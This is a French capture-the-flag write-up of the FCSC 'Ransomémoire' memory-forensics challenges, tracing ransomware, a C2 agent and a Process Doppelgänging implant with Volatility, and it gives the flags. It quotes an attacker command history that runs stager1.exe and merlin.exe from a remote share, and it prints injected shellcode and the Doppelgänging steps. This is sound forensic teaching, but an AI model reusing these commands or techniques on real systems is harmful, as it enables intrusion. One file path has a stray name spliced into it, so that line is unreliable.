2023-04-17 17:21:18 UTC+0000 2023-04-17 17:21:18 UTC+0000   2023-04-17 17:21:18 UTC+0000   2023-04-17 17:21:18 UTC+0000   Windows\Temp\MSCMDR~1.LOG

$FILE_NAME
Creation                       Modified                       MFT Altered                    Access Date                    Name/Path
------------------------------ ------------------------------ ------------------------------ ------------------------------ ---------
2023-04-17 17:21:18 UTC+0000 2023-04-17 17:21:18 UTC+0000   2023-04-17 17:21:18 UTC+0000   2023-04-17 17:21:18 UTC+0000   Windows\Temp\MsCmdRun0.log

$DATA
0000000000: 10 4c 0e d8 d0 ae c9 de 84 20 6b 10 77 db 0c bd   .L........k.w...
0000000010: fd 1c 5a c6 40 ea f7 c2 24 b4 b9 33 2e d4 36 fb   ..Z.@...$..3..6.
0000000020: d6 6e c8 ed 7c 31 82 e6 3c 29 6e d5 5d 4d 82 30   .n..|1..<)n.]M.0
0000000030: 4a 95 ae 42 8c 82 b6 7a 18 47 eb 1a 72 1a d0 03   J..B...z.G..r...
0000000040: 87 54 53 cc 79 f4 49 d4 78 2a 7e a2 70 71 f9 10   .TS.y.I.x*~.pq..
0000000050: be cd 79 a5 d5 ea dc b2 45 64 2c aa 14 12 16 81   ..y.....Ed,.....
0000000060: 6f fe 0f 66                                       o..f
```

**Flag : FCSC{776f25d811bf9ac262143d0f1fa97c382f7b5972121b37d0361c7d7ad1b27079}**

## Ransomémoire 2/3 - Début d'investigation

Difficulté : :star: :star:

### Énoncé

> Ouf, vous avez pu récupérer votre précieux fichier. Vous enquêtez maintenant sur l'origine de ce chiffrement.
>
> Le flag est au format FCSC{<pid>:<protocole>:<port>} où :
> - <pid> est l'ID du processus qui a déposé et exécuté le chiffreur et
> - <protocole> et <port> sont les paramètres de la connexion avec le C2.
>
> Attention : pour cette épreuve, vous n'avez que 10 tentatives de flag.

### Solve

```shell
grep -i 'ConsoleHost_history.txt' extracts/ransom_mft.body 
0|[MFT FILE_NAME] Users\Admin\AppData\Roaming\Microsoft\Windows\POWERS~1\PSREAD~1\ConsoleHost_history.txt (Offset: 0x221c8000)|103260|---a-----------|0|0|0|1681751775|1681751775|1681751775|1681751775
```

Après extraction et renommage :

```shell
cat ConsoleHost_history.txt

net use \\192.168.1.14 /u:guest:
\\192.168.1.14\ctf\stager1.exe \\192.168.1.14\ctf\merlin.exe 'C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe' 'C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe'
exit
```

Après avoir retourné l'ensemble de la capture mémoire et ignoré jusque là les process liés à de la virtualisation (en générale lié à l'infrastructure du challenge), j'ai tout de même décidé de m'intéréssé à **VBoxTray.exe - 6424** étant donné qu'il est le Parent Process de notre chiffreur (**Temp\svchost.exe - 5540**) et qu'il est signaler par **malfind**.

PS : De manière générale, faire attention aux résultats de **malfind**

```shell
vol2d -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 malfind

Volatility Foundation Volatility Framework 2.6.1
Process: VBoxTray.exe Pid: 6424 Address: 0x22d82840000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: PrivateMemory: 1, Protection: 6

0x0000022d82840000  fc 48 89 ce 48 81 ec 00 20 00 00 48 83 e4 f0 e8   .H..H......H....
0x0000022d82840010  cc 00 00 00 41 51 41 50 52 48 31 d2 51 56 65 48   ....AQAPRH1.QVeH
0x0000022d82840020  8b 52 60 48 8b 52 18 48 8b 52 20 48 0f b7 4a 4a   .R`H.R.H.R.H..JJ
0x0000022d82840030  48 8b 72 50 4d 31 c9 48 31 c0 ac 3c 61 7c 02 2c   H.rPM1.H1..<a|.,

0x0000000082840000 fc               CLD
0x0000000082840001 48               DEC EAX
0x0000000082840002 89ce             MOV ESI, ECX
0x0000000082840004 48               DEC EAX
0x0000000082840005 81ec00200000     SUB ESP, 0x2000
0x000000008284000b 48               DEC EAX
0x000000008284000c 83e4f0           AND ESP, -0x10
0x000000008284000f e8cc000000       CALL 0x828400e0
0x0000000082840014 41               INC ECX
0x0000000082840015 51               PUSH ECX
0x0000000082840016 41               INC ECX
0x0000000082840017 50               PUSH EAX
0x0000000082840018 52               PUSH EDX
0x0000000082840019 48               DEC EAX
0x000000008284001a 31d2             XOR EDX, EDX
0x000000008284001c 51               PUSH ECX
0x000000008284001d 56               PUSH ESI
0x000000008284001e 6548             DEC EAX
0x0000000082840020 8b5260           MOV EDX, [EDX+0x60]
0x0000000082840023 48               DEC EAX
0x0000000082840024 8b5218           MOV EDX, [EDX+0x18]
0x0000000082840027 48               DEC EAX
0x0000000082840028 8b5220           MOV EDX, [EDX+0x20]
0x000000008284002b 48               DEC EAX
0x000000008284002c 0fb74a4a         MOVZX ECX, WORD [EDX+0x4a]
0x0000000082840030 48               DEC EAX
0x0000000082840031 8b7250           MOV ESI, [EDX+0x50]
0x0000000082840034 4d               DEC EBP
0x0000000082840035 31c9             XOR ECX, ECX
0x0000000082840037 48               DEC EAX
0x0000000082840038 31c0             XOR EAX, EAX
0x000000008284003a ac               LODSB
0x000000008284003b 3c61             CMP AL, 0x61
0x000000008284003d 7c02             JL 0x82840041
0x000000008284003f 2c               DB 0x2c

Process: smartscreen.ex Pid: 2328 Address: 0x193a0800000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: PrivateMemory: 1, Protection: 6

0x00000193a0800000  48 89 54 24 10 48 89 4c 24 08 4c 89 44 24 18 4c   H.T$.H.L$.L.D$.L
0x00000193a0800010  89 4c 24 20 48 8b 41 28 48 8b 48 08 48 8b 51 50   .L$.H.A(H.H.H.QP
0x00000193a0800020  48 83 e2 f8 48 8b ca 48 b8 60 00 80 a0 93 01 00   H...H..H.`......
0x00000193a0800030  00 48 2b c8 48 81 f9 70 0f 00 00 76 09 48 c7 c1   .H+.H..p...v.H..

0x00000000a0800000 48               DEC EAX
0x00000000a0800001 89542410         MOV [ESP+0x10], EDX
0x00000000a0800005 48               DEC EAX
0x00000000a0800006 894c2408         MOV [ESP+0x8], ECX
0x00000000a080000a 4c               DEC ESP
0x00000000a080000b 89442418         MOV [ESP+0x18], EAX
0x00000000a080000f 4c               DEC ESP
0x00000000a0800010 894c2420         MOV [ESP+0x20], ECX
0x00000000a0800014 48               DEC EAX
0x00000000a0800015 8b4128           MOV EAX, [ECX+0x28]
0x00000000a0800018 48               DEC EAX
0x00000000a0800019 8b4808           MOV ECX, [EAX+0x8]
0x00000000a080001c 48               DEC EAX
0x00000000a080001d 8b5150           MOV EDX, [ECX+0x50]
0x00000000a0800020 48               DEC EAX
0x00000000a0800021 83e2f8           AND EDX, -0x8
0x00000000a0800024 48               DEC EAX
0x00000000a0800025 8bca             MOV ECX, EDX
0x00000000a0800027 48               DEC EAX
0x00000000a0800028 b8600080a0       MOV EAX, 0xa0800060
0x00000000a080002d 93               XCHG EBX, EAX
0x00000000a080002e 0100             ADD [EAX], EAX
0x00000000a0800030 00482b           ADD [EAX+0x2b], CL
0x00000000a0800033 c84881f9         ENTER 0x8148, 0xf9
0x00000000a0800037 700f             JO 0xa0800048
0x00000000a0800039 0000             ADD [EAX], AL
0x00000000a080003b 7609             JBE 0xa0800046
0x00000000a080003d 48               DEC EAX
0x00000000a080003e c7               DB 0xc7
0x00000000a080003f c1               DB 0xc1
```

On dump les segments de mémoire identifiés par malfind de `VBoxTray.exe` :

```shell
vol2d -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 malfind -p 6424 -D /a/$(readlink -f extracts)
```

Un strings sur le dump :

```shell
strings -el extracts/process.0xffff81868852e080.0x22d82840000.dmp 
pipe
https
SeDebugPrivilege
ntdll
[...]
zh-tw
zu-za
CONOUT$
tcp://:8080 # params
```

**Flag : FCSC{6424:tcp:8080}**

## Ransomémoire 3/3 - Doppelgänger

Difficulté : :star: :star: :star:

### Énoncé

> Vous ne comprenez pas comment l'agent que vous avez trouvé dans Ransomémoire 2/3 - Début d'investigation a pu se retrouver sur la machine (Note : il n'est pas nécessaire d'avoir résolu ce challenge pour résoudre Ransomémoire 3/3 - Doppelgänger). Vous suspectez la présence d'un agent dormant, qui se cache en mémoire...
>
> Le flag est au format FCSC{<pid>:<ip>:<port>} où :
> - <pid> est l'ID du processus malveillant
> - <ip> et <port> sont les paramètres de la connexion avec le C2.
>
> Attention : pour cette épreuve, vous n'avez que 3 tentatives de flag.

### Solve

Le Process Doppelganging est une cyberattaque qui remplace un processus légitime par un logiciel malveillant dans le système de fichiers NTFS transactionnel. L'attaquant crée une copie d'un fichier exécutable dans la mémoire de l'appareil et y injecte un code malveillant.

Le doppelganing de processus est une technique d'injection de code qui exploite les appels d'API Windows liés aux transactions NTFS qui sont moins utilisés avec une intention malveillante et donc "moins connus" des fournisseurs AV, d'où cette technique d'injection de code est plus probable de passer inaperçu. 

Le processus Doppelgänging est implémenté en 4 étapes : 
- Transact — Créez une transaction TxF à l'aide d'un exécutable légitime, puis écrasez le fichier avec un code malveillant. Ces changements seront isolés et uniquement visibles dans le contexte de la transaction. 
- Charger — Créez une section partagée de mémoire et chargez l'exécutable malveillant. 
- Restauration - Annulez les modifications apportées à l'exécutable d'origine, supprimant efficacement le code malveillant du système de fichiers. 
- Animer — Créez un processus à partir de la section entachée de la mémoire et lancez l'exécution.

On va chercher des connexions réseau :

```shell
vol3d -f /a/$(readlink -f fcsc.dmp) windows.netstat.NetStat

Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished                        
Offset  Proto   LocalAddr       LocalPort       ForeignAddr     ForeignPort     State   PID     Owner   Created

0x8186882b3010  TCPv4   10.0.2.15       50067   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:12.000000 
0x818688796320  TCPv4   10.0.2.15       50076   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x818688515560  TCPv4   10.0.2.15       50055   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:07.000000 
0x818688796a20  TCPv4   10.0.2.15       50082   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x818688389010  TCPv4   10.0.2.15       50056   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:07.000000 
0x8186882a7a20  TCPv4   10.0.2.15       49836   192.168.1.106   443     CLOSE_WAIT      6808    brave.exe       2023-04-17 17:16:51.000000 
0x818688040b50  TCPv4   10.0.2.15       49807   20.199.120.151  443     ESTABLISHED     728     svchost.exe     2023-04-17 17:16:17.000000 
0x818684b27400  TCPv4   10.0.2.15       50066   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:12.000000 
0x818688d44050  TCPv4   10.0.2.15       50074   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x8186889fd010  TCPv4   10.0.2.15       50053   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:07.000000 
0x8186875d94b0  TCPv4   10.0.2.15       50077   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x8186887cba20  TCPv4   10.0.2.15       49850   20.199.120.151  443     ESTABLISHED     728     svchost.exe     2023-04-17 17:18:10.000000 
0x8186880c68a0  TCPv4   10.0.2.15       50087   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:37.000000 
0x818688554950  TCPv4   10.0.2.15       50059   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:08.000000 
0x8186882d9b50  TCPv4   10.0.2.15       50072   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x818688033620  TCPv4   10.0.2.15       50050   152.199.19.74   80      ESTABLISHED     1748    CompatTelRunne  2023-04-17 17:23:54.000000 
0x818687f9e010  TCPv4   10.0.2.15       50071   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x81868489d640  TCPv4   10.0.2.15       50089   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:37.000000 
0x8186880b8010  TCPv4   10.0.2.15       8080    10.0.2.2        43543   ESTABLISHED     3144    brave.exe       2023-04-17 17:18:48.000000 
0x8186880e8010  TCPv4   10.0.2.15       50051   192.229.221.95  80      ESTABLISHED     1748    CompatTelRunne  2023-04-17 17:23:54.000000 
0x818687755010  TCPv4   10.0.2.15       50058   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:08.000000 
0x818684f3fac0  TCPv4   10.0.2.15       50078   93.184.221.240  80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x818686db6010  TCPv4   10.0.2.15       50075   95.100.85.138   80      ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:22.000000 
0x818687fa6050  TCPv4   10.0.2.15       50088   23.52.250.184   443     ESTABLISHED     4852    svchost.exe     2023-04-17 17:24:37.000000 
0x818682fd5e90  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       948     svchost.exe     2023-04-16 21:46:22.000000 
0x818682fd5e90  TCPv6   ::      135     ::      0       LISTENING       948     svchost.exe     2023-04-16 21:46:22.000000 
0x818682fd5bd0  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       948     svchost.exe     2023-04-16 21:46:22.000000 
0x818684ae41b0  TCPv4   10.0.2.15       139     0.0.0.0 0       LISTENING       4       System  2023-04-17 17:16:09.000000 
0x818686fbfcb0  TCPv4   0.0.0.0 445     0.0.0.0 0       LISTENING       4       System  2023-04-16 21:46:57.000000 
0x818686fbfcb0  TCPv6   ::      445     ::      0       LISTENING       4       System  2023-04-16 21:46:57.000000 
0x818686fc0650  TCPv4   0.0.0.0 5040    0.0.0.0 0       LISTENING       1288    svchost.exe     2023-04-16 21:47:17.000000 
0x818686fc0230  TCPv4   0.0.0.0 7680    0.0.0.0 0       LISTENING       4852    svchost.exe     2023-04-16 21:47:22.000000 
0x818686fc0230  TCPv6   ::      7680    ::      0       LISTENING       4852    svchost.exe     2023-04-16 21:47:22.000000 
0x818682fd5a70  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       716     lsass.exe       2023-04-16 21:46:22.000000 
0x818682fd5a70  TCPv6   ::      49664   ::      0       LISTENING       716     lsass.exe       2023-04-16 21:46:22.000000 
0x818682fd41b0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       716     lsass.exe       2023-04-16 21:46:22.000000 
0x818682fd5d30  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       572     wininit.exe     2023-04-16 21:46:22.000000 
0x818682fd5d30  TCPv6   ::      49665   ::      0       LISTENING       572     wininit.exe     2023-04-16 21:46:22.000000 
0x818682fd5230  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       572     wininit.exe     2023-04-16 21:46:22.000000 
0x818682fd4e10  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       1120    svchost.exe     2023-04-16 21:46:23.000000 
0x818682fd4e10  TCPv6   ::      49666   ::      0       LISTENING       1120    svchost.exe     2023-04-16 21:46:23.000000 
0x818682fd5390  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       1120    svchost.exe     2023-04-16 21:46:23.000000 
0x818682fd45d0  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       728     svchost.exe     2023-04-16 21:46:23.000000 
0x818682fd45d0  TCPv6   ::      49667   ::      0       LISTENING       728     svchost.exe     2023-04-16 21:46:23.000000 
0x818682fd4470  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       728     svchost.exe     2023-04-16 21:46:23.000000 
0x81867fca61b0  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       860     spoolsv.exe     2023-04-16 21:46:56.000000 
0x81867fca61b0  TCPv6   ::      49668   ::      0       LISTENING       860     spoolsv.exe     2023-04-16 21:46:56.000000 
0x81867fca6050  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       860     spoolsv.exe     2023-04-16 21:46:56.000000 
0x818686fbf1b0  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       696     services.exe    2023-04-16 21:46:57.000000 
0x818686fbf1b0  TCPv6   ::      49669   ::      0       LISTENING       696     services.exe    2023-04-16 21:46:57.000000 
0x818686fbf730  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       696     services.exe    2023-04-16 21:46:57.000000 
0x818686fc00d0  TCPv4   0.0.0.0 49670   0.0.0.0 0       LISTENING       2252    svchost.exe     2023-04-16 21:47:00.000000 
0x818686fc00d0  TCPv6   ::      49670   ::      0       LISTENING       2252    svchost.exe     2023-04-16 21:47:00.000000 
0x818686fbfe10  TCPv4   0.0.0.0 49670   0.0.0.0 0       LISTENING       2252    svchost.exe     2023-04-16 21:47:00.000000 
0x818687574d10  UDPv4   10.0.2.15       137     *       0               4       System  2023-04-17 17:16:09.000000 
0x8186875722e0  UDPv4   10.0.2.15       138     *       0               4       System  2023-04-17 17:16:09.000000 
0x818687030830  UDPv4   0.0.0.0 500     *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818687030830  UDPv6   ::      500     *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818687031320  UDPv4   0.0.0.0 500     *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x8186884550f0  UDPv6   fe80::b5bb:163f:5627:748f       1900    *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818688463060  UDPv6   ::1     1900    *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x8186884679d0  UDPv4   10.0.2.15       1900    *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818688468330  UDPv4   127.0.0.1       1900    *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818687031c80  UDPv4   0.0.0.0 4500    *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818687031c80  UDPv6   ::      4500    *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818687030ce0  UDPv4   0.0.0.0 4500    *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818687920c10  UDPv4   0.0.0.0 5050    *       0               1288    svchost.exe     2023-04-16 21:47:17.000000 
0x818687565c70  UDPv4   0.0.0.0 5353    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x818687565c70  UDPv6   ::      5353    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x81868844ae70  UDPv4   0.0.0.0 5353    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x8186873c3a10  UDPv4   0.0.0.0 5355    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x8186873c3a10  UDPv6   ::      5355    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x818688459bf0  UDPv4   0.0.0.0 5355    *       0               1500    svchost.exe     2023-04-17 17:16:10.000000 
0x818687080320  UDPv4   127.0.0.1       49259   *       0               728     svchost.exe     2023-04-16 21:46:57.000000 
0x818688466d50  UDPv6   fe80::b5bb:163f:5627:748f       49413   *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818688467200  UDPv6   ::1     49414   *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x8186884663f0  UDPv4   10.0.2.15       49415   *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818688466a30  UDPv4   127.0.0.1       49416   *       0               756     svchost.exe     2023-04-17 17:16:08.000000 
0x818689b0ee20  UDPv4   0.0.0.0 54124   *       0               4060    brave.exe       2023-04-17 17:24:21.000000 
0x818689b13600  UDPv4   0.0.0.0 54173   *       0               4060    brave.exe       2023-04-17 17:24:47.000000 
```

On la connexion `192.168.1.106   443     CLOSE_WAIT      6808    brave.exe` qui est suspecte.

Avec le plugin **[doppelfind](https://github.com/kslgroup/Process-Doppelganging-Doppelfind)** on peut peut-être avoir des informations supplémentaires :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 doppelfind
Volatility Foundation Volatility Framework 2.6.1

Doppelganger Finder:
--------------------

Process: brave.exe PID: 6808 PPID: 6612
Number of Image Files: 1

Offset(V)          Name                 Path                           Write Access Related Transaction
------------------ -------------------- ------------------------------ ------------ -------------------
0xffff81868792ebf0 \Program ...rave.exe                                True         True               
------------------ -------------------- ------------------------------ ------------ -------------------

Found transactions information:

Transaction(V)     Description     File Object Name     State                     Outcome             
------------------ --------------- -------------------- ------------------------- --------------------
WARNING : volatility.debug    : NoneObject as string: Buffer length 0 for _UNICODE_STRING not within bounds
0xffff81868860da70                 \Program ...rave.exe KTransactionForgotten     KTxOutcomeAborted   
```

On retrouve le même processus que notre connexion suspecte.

PS : il est nécéssaire de modifier légèrement le script pour le faire fonctionner (cf : https://github.com/kslgroup/Process-Doppelganging-Doppelfind/pull/1/commits/2ac57c52957cb781a839b1944deb16ed6146df73)

De plus, avec l'arbre des processus le PPID de `brave.exe` (PID : 6808) est introuvable et le processus n'est pas initié par `explorer.exe` contrairement aux autres `brave.exe` :

```
 0xffff818688160300:brave.exe                        6808   6612     10      0 2023-04-17 17:16:19 UTC+0000
. 0xffff8186880f4080:brave.exe                       3144   6808      0 ------ 2023-04-17 17:18:04 UTC+0000
 0xffff81868897e080:OneDrive.exe                     7156   7048     20      0 2023-04-16 21:48:32 UTC+0000
. 0xffff818684b43080:Microsoft.Shar                  2296   7156      0 ------ 2023-04-17 17:16:06 UTC+0000
 0xffff818688718080:BraveUpdate.ex                    960   1528      3      0 2023-04-17 17:16:26 UTC+0000
```

Avec **psinfo** :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 psinfo -p 6808
Volatility Foundation Volatility Framework 2.6.1

Process Information:
        Process: brave.exe PID: 6808
        Parent Process: NA PPID: 6612
        Creation Time: 2023-04-17 17:16:19 UTC+0000
        Process Base Name(PEB): brave.exe
        Command Line(PEB): "C:\Program Files\BraveSoftware\Brave-Browser\Application\braJacob Appelbaum
ve.exe"

VAD and PEB Comparison:
        Base Address(VAD): 0xea0000
        Process Path(VAD): \Program Files\BraveSoftware\Brave-Browser\Application\brave.exe
        Vad Protection: PAGE_EXECUTE_WRITECOPY
        Vad Tag: Vad 

        Base Address(PEB): 0xea0000
        Process Path(PEB): C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe
        Memory Protection: PAGE_EXECUTE_WRITECOPY
        Memory Tag: Vad 

Similar Processes:
C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe
        brave.exe(6808) Parent:NA(6612) Start:2023-04-17 17:16:19 UTC+0000
```

On note également la **Base Address(VAD)** étrange et différente des autres processus `brave.exe`, celle-ci est censé être pareil. 

On a suffisament d'information pour tester le flag, il s'avère être correcte.

On aurait pu aussi extraire le processus :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 procdump -p 6808 --dump-dir=/a/$(readlink -f extracts)
```

Un strings + une regex pour extraire une `ip:port` :

```shell
strings extracts/executable.6808.exe > extracts/6808.txt

grep -E -o "([0-9]{1,3}\.){3}[0-9]{1,3}:[0-9]{1,5}" extracts/6808.txt 
127.0.0.1:443
192.168.1.106:443
192.168.1.106:443
192.168.1.106:443
```

**Flag : FCSC{6808:192.168.1.106:443}**
